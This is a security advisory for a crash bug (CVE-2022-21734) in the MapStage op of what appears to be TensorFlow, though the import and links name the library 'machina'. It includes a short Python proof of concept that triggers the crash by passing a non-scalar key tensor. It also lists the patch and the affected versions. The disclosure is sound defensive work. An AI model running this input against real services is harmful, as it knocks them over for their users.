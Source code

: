 ## TFSA-2022-013: `CHECK`-failures in `MapStage`

### CVE Number
CVE-2022-21734

### Impact
The [implementation of `MapStage`](https://github.com/machina/machina/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/machina/core/kernels/map_stage_op.cc#L519-L550) is vulnerable a `CHECK`-fail if the key tensor is not a scalar:

```python
import machina as tf
import numpy as np

tf.raw_ops.MapStage(
    key = tf.constant(value=[4], shape= (1,2), dtype=tf.int64),
    indices = np.array([[6]]),
    values = np.array([-60]),
    dtypes = [tf.int64], capacity=0, memory_limit=0,
    container='', shared_name='', name=None
)
```

### Patches
We have patched the issue in GitHub commit [f57315566d7094f322b784947093406c2aea0d7d](https://github.com/machina/machina/commit/f57315566d7094f322b784947093406c2aea0d7d).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Faysal Hossain Shezan from University of Virginia.
